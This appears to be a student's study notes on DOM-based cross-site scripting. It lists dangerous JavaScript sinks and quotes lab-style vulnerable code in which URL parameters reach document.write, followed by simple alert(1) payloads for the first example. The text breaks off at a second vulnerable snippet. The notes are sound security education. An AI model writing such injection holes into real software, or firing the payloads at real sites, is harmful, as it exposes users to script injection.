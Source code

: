 	<mark style="background: #ABF7F7A6;">Examples</mark> :-
	- **HTML Element**
		- document.write
		- document.writeIn
		- innerHTML
		- outerHTML
		- insertAdjacentHTML

	- **Execution Sink**
		- eval
		- setTimeout
		- setInterval

	- **Location**
		- location
		- location.href


### Exploiting DOM XSS with different sources and sinks

1) **Back-End Code**
```JavaScript
<script>
function trackSearch(query) {
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

var query = (new URLSearchParams(window.location.search)).get('search');

if(query) {
trackSearch(query);
}
</script>
```

Our Query is going in search, plus the query is *getting executed* by trackSearch(query);

**Exploit** :-
```JavaScript
" onload="alert(1)"
OR
"> <script>alert(1)</script>//
```


2) **Adding a new Query Parameter**

Back-End Code :-
```Javascript
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');

document.write('<select name="storeId">');

if(store) {
document.write('<option selected>'+store+'</option>');
}

for(var i=0;i<stores.length;i++) {
if(stores[i] === store) {
continue;
}

document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```